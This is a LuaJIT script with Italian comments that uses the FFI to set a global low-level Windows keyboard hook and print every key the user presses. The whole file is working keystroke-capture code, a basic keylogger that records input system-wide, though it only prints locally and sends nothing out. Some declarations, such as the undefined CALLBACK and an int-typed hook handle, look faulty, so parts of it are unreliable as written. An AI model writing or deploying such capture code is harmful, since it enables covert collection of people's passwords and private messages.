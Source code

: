 -- Carica la libreria ffi di LuaJIT
local ffi = require("ffi")

-- Definisci le funzioni Windows necessarie per intercettare la tastiera
ffi.cdef[[
    typedef unsigned long DWORD;
    typedef void* HWND;
    typedef long LPARAM;
    typedef unsigned int WPARAM;
    typedef long LRESULT;
    typedef struct KBDLLHOOKSTRUCT {
        DWORD vkCode;
        DWORD scanCode;
        DWORD flags;
        DWORD time;
        void* dwExtraInfo;
    } KBDLLHOOKSTRUCT;
    typedef LRESULT (CALLBACK* HOOKPROC)(int nCode, WPARAM wParam, LPARAM lParam);
    
    HWND GetConsoleWindow();
    int GetMessage(void* msg, HWND hWnd, unsigned int wMsgFilterMin, unsigned int wMsgFilterMax);
    int TranslateMessage(void* msg);
    int DispatchMessage(void* msg);
    int SetWindowsHookEx(int idHook, HOOKPROC lpfn, void* hmod, unsigned int dwThreadId);
    int UnhookWindowsHookEx(void* hHook);
    unsigned long MapVirtualKeyA(unsigned long code, unsigned long mapType);
]]

-- Costanti per l'hook e i messaggi di tastiera
local WH_KEYBOARD_LL = 13
local WM_KEYDOWN = 0x0100
local HC_ACTION = 0

-- Variabile per l'hook
local hHook

-- Funzione di log che stampa i tasti premuti
function Log(input)
    print(input)
end

-- Funzione di callback per l'hook della tastiera
local function LowLevelKeyboardProc(nCode, wParam, lParam)
    if nCode == HC_ACTION then
        local pKey = ffi.cast("KBDLLHOOKSTRUCT*", lParam)
        if wParam == WM_KEYDOWN then
            -- Ottieni il codice del tasto virtuale
            local vkCode = pKey.vkCode
            -- Mappa il codice del tasto al carattere corrispondente
            local key = ffi.C.MapVirtualKeyA(vkCode, 0)
            -- Logga il tasto premuto
            Log(string.char(key))
        end
    end
    return 0
end

-- Imposta l'hook della tastiera
hHook = ffi.C.SetWindowsHookEx(WH_KEYBOARD_LL, ffi.cast("HOOKPROC", LowLevelKeyboardProc), nil, 0)

-- Ciclo di messaggi per intercettare gli eventi
local msg = ffi.new("struct { int message; void* wParam; void* lParam; }")
print("Premi Ctrl+C per uscire.")

while ffi.C.GetMessage(msg, nil, 0, 0) ~= 0 do
    ffi.C.TranslateMessage(msg)
    ffi.C.DispatchMessage(msg)
end

-- Rimuovi l'hook alla fine del programma
ffi.C.UnhookWindowsHookEx(hHook)
